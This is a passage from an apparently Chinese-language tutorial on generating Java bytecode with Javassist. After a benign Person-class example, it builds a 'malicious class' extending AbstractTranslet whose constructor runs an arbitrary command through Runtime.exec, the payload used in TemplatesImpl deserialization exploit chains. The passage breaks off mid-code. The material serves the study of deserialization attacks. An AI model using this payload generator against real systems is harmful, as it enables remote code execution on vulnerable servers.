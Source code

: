 ```plain
        //将该方法添加进Person中
        ctClass.addMethod(ctMethod);
        //将生成的字节码写入文件
        ctClass.writeFile("D:\\Tomcat\\CC\\src\\main\\java\\JavaassitTest");
    }

    public static void main(String[] args) throws NotFoundException, CannotCompileException, IOException {
        CreateClass();
    }
}
```

然后我们来看一下我们生成的Person类

```plain
public class Person {
    private String name = "Ic4F1ame";

    public void setName(String var1) {
        this.name = var1;
    }

    public String getName() {
        return this.name;
    }

    public Person() {
        this.name = "Ic4F1ame";
    }

    private void printName() {
        System.out.println(this.name);
    }
}
```

### 生成恶意类：

因为恶意类需要继承`AbstractTranslet`类，并重写两个`transform()`方法。否则编译无法通过，无法生成`.class`文件，但是执行的时候我们并没有用到两个方法，同时使用Javassit生成的时候直接生成的是字节码类型的恶意类，所以跳过了编译的过程，就不需要引入重写的方法：

```plain
package EXPShell;
import javassist.*;

import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
public class GetShellCode {

    public static CtClass getTemplatesImpl(String cmd) {
        CtClass ctClass = null;
        try {
            ClassPool pool = ClassPool.getDefault();
            ctClass = pool.makeClass("A");
            CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
            ctClass.setSuperclass(superClass);
            CtConstructor constructor = CtNewConstructor.make("public A(){Runtime.getRuntime().exec(\"" + cmd + "\");\n}", ctClass);
            ctClass.addConstructor(constructor);
            return ctClass;

        } catch (Exception e) {
```